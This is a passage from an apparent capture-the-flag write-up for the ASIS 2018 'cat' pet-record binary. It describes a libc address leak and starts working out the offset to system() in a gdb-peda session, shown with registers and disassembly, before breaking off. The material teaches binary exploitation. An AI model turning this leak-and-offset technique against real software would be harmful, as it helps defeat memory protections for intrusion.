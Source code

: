 
So we can see that at offset 3, we have a libc address. We can figure out it's offset from system with gdb and python:

First grab the addres of both in gdb:
```
gdb-peda$ r
Starting program: /Hackery/asis18q/rev/cat/cat 

$$$$$$$\             $$\           $$$$$$$\                      $$\             $$\                         
$$  __$$\            $$ |          $$  __$$\                     \__|            $$ |                        
$$ |  $$ | $$$$$$\ $$$$$$\         $$ |  $$ | $$$$$$\   $$$$$$\  $$\  $$$$$$$\ $$$$$$\    $$$$$$\   $$$$$$\  
$$$$$$$  |$$  __$$\\_$$  _|        $$$$$$$  |$$  __$$\ $$  __$$\ $$ |$$  _____|\_$$  _|  $$  __$$\ $$  __$$\ 
$$  ____/ $$$$$$$$ | $$ |          $$  __$$< $$$$$$$$ |$$ /  $$ |$$ |\$$$$$$\    $$ |    $$$$$$$$ |$$ |  \__|
$$ |      $$   ____| $$ |$$\       $$ |  $$ |$$   ____|$$ |  $$ |$$ | \____$$\   $$ |$$\ $$   ____|$$ |      
$$ |      \$$$$$$$\  \$$$$  |      $$ |  $$ |\$$$$$$$\ \$$$$$$$ |$$ |$$$$$$$  |  \$$$$  |\$$$$$$$\ $$ |      
\__|       \_______|  \____/       \__|  \__| \_______| \____$$ |\__|\_______/    \____/  \_______|\__|      
                                                       $$\   $$ |                                            
                                                       \$$$$$$  |                                            
                                                        \______/                                             

------------------------------------------------
 1: create pet record
 2: edit pet record
 3: print record
 4: print all record
 5: delete record
 6: exit
------------------------------------------------
which command?
> ^C
Program received signal SIGINT, Interrupt.

[----------------------------------registers-----------------------------------]
RAX: 0xfffffffffffffe00 
RBX: 0x0 
RCX: 0x7ffff7b08890 (<__read_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x4 
RSI: 0x7fffffffdf40 --> 0x401120 (push   r15)
RDI: 0x0 
RBP: 0x7fffffffdf60 --> 0x401120 (push   r15)
RSP: 0x7fffffffdf28 --> 0x401085 (lea    rax,[rbp-0x20])
RIP: 0x7ffff7b08890 (<__read_nocancel+7>:	cmp    rax,0xfffffffffffff001)
R8 : 0x7ffff7fd1700 (0x00007ffff7fd1700)
R9 : 0x11 
R10: 0x37b 
R11: 0x246 
R12: 0x400750 (xor    ebp,ebp)
R13: 0x7fffffffe040 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7ffff7b08887 <read+7>:	jne    0x7ffff7b08899 <read+25>
```